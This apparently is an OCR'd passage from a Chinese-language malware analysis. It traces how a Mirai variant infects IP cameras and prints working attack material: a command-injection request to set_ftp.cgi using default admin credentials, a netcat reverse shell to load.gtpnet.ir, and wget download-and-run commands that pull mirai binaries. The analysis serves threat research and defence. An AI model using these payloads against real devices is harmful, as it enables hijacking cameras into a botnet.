```
mirai.arm: ELF 32-bit LSB executable, ARM, version 1, statically linked, stripped
mirai.arm5n: ELF 32-bit LSB executable, ARM, version 1, statically linked, stripped
mirai.arm7: ELF 32-bit LSB executable, ARM, EABI4 version 1 (SYSV), statically linked, stripped
mirai.mips: ELF 32-bit MSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, stripped
mirai.mpsl: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, stripped
wificam.sh: ASCII text
```

**载荷的投递方式**

在攻击者完成嗅探81端口确认存活以后，通过以下方式投递有效载荷：

1、攻击者在上文PoC基础上，注入命令迫使受害者设备发起nc连接到 load.gtpnet.ir:1234

2、攻击者控制load.gtpnet.ir:1234 对每个受害则发起的连接，投递了 hxxp://ntp.gtpnet.ir/wificam.sh 作为后续下载的中转，并通过该脚本进一步从 hxxp://ntp.gtpnet.ir/ 服务器下载命名为 mirai.arm/mirai.arm5n/mirai.arm7/mirai.mips/mirai.mpsl 的样本

3、这些样本会进一步与控制服务器建立连接，到此，受害者设备完全被攻击者控制，感染阶段结束，准备发起攻击。

上述三段攻击方式对应的代码如下：

1、命令注入阶段，迫使受害者建立nc连接到 load.gtpnet.ir:1234

```
GET login.cgi HTTP/1.1
GET /set_ftp.cgi?loginuse=admin&amp;loginpas=admin&amp;next_url=ftp.htm&amp;port=21&amp;user=ftp&amp;pwd=ftp&amp;dir=/&amp;mode=PORT&amp;upload_interval=0&amp;svr=%24%28nc+load.gtpnet.ir+1234+-e+%2Fbin%2Fsh%29 HTTP/1.1
GET /ftptest.cgi?loginuse=admin&amp;loginpas=admin HTTP/1.1
```

这个部分的有效载荷包含在 sef_ftp.cgi 的URI 中，转码后为

nc load.gtpnet.ir 1234 -e bin/sh

受害者因此被胁迫向攻击者的服务器发起nc连接

1、攻击者通过上述nc连接，向受害者设备投递了下载脚本 wificam.sh



```
$ nc load.gtpnet.ir 1234`
busybox nohup sh -c "wget http://ntp.gtpnet.ir/wificam.sh -O /tmp/a.sh ;chmod +x /tmp/a.sh ;/tmp/a.sh" &gt; /dev/null 2&gt;&amp;1 &amp;`
```

下载脚本 wificam.sh 进一步下载了新的样本文件<br>

```
$ cat wificam.sh
```



```
wget hxxp://ntp.gtpnet.ir/mirai.arm -O /tmp/arm.bin
wget hxxp://ntp.gtpnet.ir/mirai.arm5n -O /tmp/arm5.bin
wget hxxp://ntp.gtpnet.ir/mirai.arm7 -O /tmp/arm7.bin
wget hxxp://ntp.gtpnet.ir/mirai.mips -O /tmp/mips.bin
wget hxxp://ntp.gtpnet.ir/mirai.mpsl -O /tmp/mpsl.bin
```
